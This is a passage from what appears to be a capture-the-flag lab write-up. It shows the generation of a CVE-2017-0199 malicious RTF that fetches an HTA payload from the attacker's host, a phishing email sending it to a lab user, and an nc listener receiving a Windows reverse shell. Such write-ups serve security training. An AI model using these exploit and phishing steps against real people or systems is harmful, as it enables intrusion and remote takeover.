 

    root@kali# python CVE-2017-0199/cve-2017-0199_toolkit.py -M gen -w invoice.rtf -u http://10.10.14.3/msfv.hta -t rtf -x 0
    Generating normal RTF payload.

    Generated invoice.rtf successfully



#### Send Email / Shell

With the document's prepped, I'll start a python http.server to serve
the hta file, a nc listener to catch my shell, and then send the phish.
I'll use `sendemail` with the following options:

-   `-f` - from address, can be anything as long as the domain exists
-   `-t` - to address, `nico@megabank.com`
-   `-u` - subject
-   `-m` - body
-   `-a` - attachment
-   `-s` - smtp server
-   `-v` - verbose



    root@kali# sendEmail -f 0xdf@megabank.com -t nico@megabank.com -u "Invoice Attached" -m "You are overdue payment" -a invoice.rtf -s 10.10.10.77 -v
    Nov 05 12:30:43 kali sendEmail[20365]: DEBUG => Connecting to 10.10.10.77:25
    Nov 05 12:30:43 kali sendEmail[20365]: DEBUG => My IP address is: 10.10.14.3
    Nov 05 12:30:43 kali sendEmail[20365]: SUCCESS => Received:     220 Mail Service ready
    Nov 05 12:30:43 kali sendEmail[20365]: INFO => Sending:         EHLO kali
    Nov 05 12:30:43 kali sendEmail[20365]: SUCCESS => Received:     250-REEL, 250-SIZE 20480000, 250-AUTH LOGIN PLAIN, 250 HELP
    Nov 05 12:30:43 kali sendEmail[20365]: INFO => Sending:         MAIL FROM:<0xdf@megabank.com>
    Nov 05 12:30:43 kali sendEmail[20365]: SUCCESS => Received:     250 OK
    Nov 05 12:30:43 kali sendEmail[20365]: INFO => Sending:         RCPT TO:<nico@megabank.com>
    Nov 05 12:30:43 kali sendEmail[20365]: SUCCESS => Received:     250 OK
    Nov 05 12:30:43 kali sendEmail[20365]: INFO => Sending:         DATA
    Nov 05 12:30:43 kali sendEmail[20365]: SUCCESS => Received:     354 OK, send.
    Nov 05 12:30:43 kali sendEmail[20365]: INFO => Sending message body
    Nov 05 12:30:43 kali sendEmail[20365]: Setting content-type: text/plain
    Nov 05 12:30:43 kali sendEmail[20365]: DEBUG => Sending the attachment [invoice.rtf]
    Nov 05 12:30:54 kali sendEmail[20365]: SUCCESS => Received:     250 Queued (11.609 seconds)
    Nov 05 12:30:54 kali sendEmail[20365]: Email was sent successfully!  From: <0xdf@megabank.com> To: <nico@megabank.com> Subject: [Invoice Attached] Attachment(s): [invoice.rtf] Server: [10.10.10.77:25]



Shortly after that, I get a shell:



    root@kali# nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.3] from (UNKNOWN) [10.10.10.77] 54014
    Microsoft Windows [Version 6.3.9600]
    (c) 2013 Microsoft Corporation. All rights reserved.
